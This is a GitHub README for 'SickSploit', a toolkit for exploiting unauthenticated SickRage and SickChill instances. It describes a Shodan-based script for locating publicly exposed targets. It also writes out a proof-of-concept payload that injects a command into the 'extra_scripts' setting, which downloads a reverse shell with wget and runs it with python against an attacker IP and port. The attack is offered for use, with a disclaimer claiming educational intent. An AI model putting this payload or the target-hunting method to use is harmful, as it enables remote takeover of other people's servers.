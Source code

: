 # SickSploit

Collection of tools/scripts to exploit Sick* instances (SickRage, SickChill and similar forks.)

## Introduction 

SickRage/Chill/Beard are tools to automate the download of TV-Series using torrent or Usenet.
The programs offer similar functionalities and are all exploitable using the same technique.
In this repositories there are several tools, 'sickown' is a script which uses Shodan API to track down possible vulnerable instances of Sick* which are publicly exposed on the Internet.
Sickspolit is a POC tool that exploits a vulnerable instance.

## SickOwn 

Sickown uses a simple search query in Shodan to find open instances of Sick* and then attempts to also remove false positives from this list by querying the targets found.
At the time of the writing, 1834 targets are found.

Example usage of SickOwn is:

    $ python sickown.py -h
    usage: sickown.py [-h] API
    Use Shodan.io to track down vulnerable instances of SickChill/Rage
    positional arguments:
    API         The API_KEY for Shodan
    optional arguments:
    -h, --help  show this help message and exit

## SickSpolit

Sicksploit is a tool to provide a POC exploit for an open instance of Sickrage.
The exploit is easy and relies on a vulnerable feature. This vulnerabilities has been reported on 15th December to the maintainer of SickChill (the fork on which all the tests have been performed).
The exploit consisting in injecting a shell command in the 'extra_scripts' which are executed after post-processing downloaded files.
Post-processing usually consists of renaming and moving downloaded episodes of TV-Series, and Sick* offers the possibility to execute a custom script after each post-process.

The way I use to exploit this feature is by injecting a Payload such as:

    /usr/bin/wget https://raw.githubusercontent.com/Sudneo/sicksploit/master/shell.py -O /tmp/shell|/usr/bin/python /tmp/shell 192.168.1.200 4444

This will clearly download a simple reverse shell which I have also included in the repo and then execute it with IP:port to connect to as parameters.


## Tested on

The exploit works on several versions of SickRage and SickChill where no authentication is configured. The same exploit technique would work on any SickBeard version as well.
However, I performed my tests on my own instance of SickChill Version: v2018.11.30-1 and SickRage Version: v2018.09.17-1. 


## Disclaimer

No public instances have been exploited in the process, nor I advise to do so. I have made this for pure educational purposes and I decline every responsibility for an eventual misuse of (part of) this code.

